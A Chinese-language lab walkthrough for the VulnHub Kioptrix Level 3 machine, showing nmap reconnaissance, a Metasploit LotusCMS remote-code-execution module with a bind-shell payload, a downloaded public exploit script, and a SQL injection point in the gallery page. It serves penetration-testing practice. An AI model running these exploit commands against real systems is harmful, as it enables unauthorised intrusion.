







# 环境

来自[Kioptrix_Levl_3](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

由于解析问题，hosts需要添加`192.168.88.27  kioptrix3.com`才能进行正确访问http://kioptrix3.com/gallery/


# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

确定ip：`192.168.88.27`



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.27
```

确认开发端口22,80



## 服务详情扫描

```bash
sudo nmap -sV -O -p22,80 192.168.88.27
```

首先考虑80端口，apache版本不低，找不到可利用漏洞



## 指纹识别

```

```


# 测试利用

## getshell1

访问80端口，页面如下，很快发现有一个Login功能，进去测试一下



确实是LotusCMS内容管理系统


进行漏扫，发现Metaspoit可利用的RCE，后面的16982.txt都是一下中低危的xss和ssrf，构造起来比较麻烦



启动MSF（这种集成化的工具还是少用，要了解漏洞利用原理)

```bash
msfconsole
search lotuscms
use 0  #或者use exploit/multi/http/lcms_php_exec 
show options  #查看攻击参数
set rhost 192.168.88.27
set rport 80
set uri /
set lhost 192.168.88.10
set lport 4444
set payload generic/shell_bind_tcp
run
```

拿下shell



进行提权

## getshell2

我们不使用msf的漏洞，去google寻找该LotusCMS相关漏洞利用，[github](https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh)有相关漏洞利用脚本

```bash
wget https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh
chmod 755 lotusRCE.sh
./lotusRCE.sh
```


## getshell3

在http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos这个目录下我们发现，着存在sql注入



